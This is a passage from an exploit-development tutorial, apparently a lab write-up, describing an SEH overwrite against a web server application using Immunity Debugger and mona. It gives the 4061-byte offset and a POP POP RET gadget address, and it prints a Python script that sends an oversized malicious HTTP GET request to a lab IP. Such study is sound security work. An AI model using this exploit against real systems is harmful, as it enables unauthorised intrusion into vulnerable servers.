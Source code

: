![](/assets/images/CTP/efsskeleton.JPG)

## SEH Overwrite

Checking out the SEH Chain in Immunity shows us that we have overwritten both 4 byte components of the SEH. 

![](/assets/images/CTP/efsSEHchain.JPG)

After using `!mona pc 5000` and placing the resulting address in our SEH entry into `!mona po`, mona tells us that our SEH overwrite occurs after 4061 bytes. 

What we need now is the location of a `POP POP RET` gadget in this application so that we can place it in our current SEH 4 byte space and we can work our way 4 bytes backwards into the 4 byte space that typically holds the pointer to the next SEH. 

Using the `!mona seh` command, most of the addresses we see immediately start with `00` which is not ideal since this will require us to include a null byte in our shellcode. We could try for a partial overwrite but instead, I kept looking for a more friendly 4 byte address and eventually found one at the following location in the `seh.txt` file that mona creates. 

![](/assets/images/CTP/sehlocation.JPG)

Our exploit code now looks like this. Notice that I added the `nseh` parameter (I used `\xcc` but you can use `\x90` as well) so that our math stays correct and we keep getting a consistent SEH overwrite. 
```python
import socket
import os
import sys

ip = "192.168.1.201"
port = 80

nseh = "\xcc" * 4

#POP POP RET 0x1001ab99
seh = '\x99\xab\x01\x10'

crash = "A" * 4061
crash += nseh
crash += seh
crash += "D" * (5000 - len(crash))


buffer="GET "
buffer+=crash
buffer+=" HTTP/1.1\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
expl.connect((ip, port))
expl.send(buffer)
expl.close()
```
